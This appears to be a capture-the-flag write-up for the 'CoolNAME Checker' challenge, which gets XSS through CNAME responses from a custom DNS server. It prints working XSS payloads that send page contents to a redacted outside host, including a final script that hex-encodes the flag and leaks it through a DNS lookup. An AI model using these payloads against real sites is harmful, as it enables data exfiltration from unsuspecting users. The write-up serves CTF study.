 # CoolNAME Checker [324 points] (19 solves)

Files:

 - This challenge provided a [link](http://reverse-lookup.hackable.software)

## Part 0: research

The website allows us to enter an IP and the server will make a DNS request to it (judging from the name it's going to be a CNAME DNS query). Below is a quick nonce solver we used, which was executed with a simple JS script in console.

```js
const nonce = document.querySelector('input[name="nonce"]').value;
fetch('https://%REDACTED%', { method: 'POST', body: nonce })
    .then(res => res.text())
    .then(res => document.querySelector('input[name="pow"]').value = res);
document.querySelector('input[name="srv"]').value = "%REDACTED%";
```

The button *show to admin* hinted at an XSS vuln. We ran a simple python DNS server from [here](https://gist.github.com/samuelcolvin/ca8b429504c96ee738d62a798172b046). This allowed us to return arbitrary responses quite easily.

```python
from time import sleep

from dnslib import RR
from dnslib.server import DNSServer


#PAYLOAD = '<script>fetch(\'%REDACTED\',{body:document.body.innerHTML,method:\'POST\'})</script>'
#PAYLOAD = '<script/src=\'%REDACTED%\'></script>'
PAYLOAD = '<img/src=\'%REDACTED%\'>'

class Resolver:
    def resolve(self, request, handler):
        reply = request.reply()
        resname = str(request.q.qname)[:-1]
        reply.add_answer(*RR.fromZone(resname + ' 2137 CNAME ' + PAYLOAD))
        return reply

if __name__ == '__main__':
    resolver = Resolver()
    s = DNSServer(resolver, port=53, address='0.0.0.0', tcp=False)
    s.start_thread()

    try:
        while 1:
            sleep(0.1)
    except KeyboardInterrupt:
        pass
    finally:
        s.stop()
```

## Part 1: solution

We quickly realised, that above payloads worked on local side - meaning that XSS was working, but we couldn't get admin to hit our requestbin. On top of that, payload couldn't contain spaces.

It took us quite some time to read challenge carefully. *Only udp/53 outgoing traffic allowed from server*. That meant we needed to smuggle flag in a DNS query.

Final payload:

```html
<script>window.location=('http://'+document.getElementById('flag').innerHTML.substr(14).split('').reduce((hex,c)=>hex+=c.charCodeAt(0).toString(16),'').substr(0,60)+'.%REDACTED%')</script>
```

Flag: `DrgnS{MustLuuuuvDNS_dontYa}`
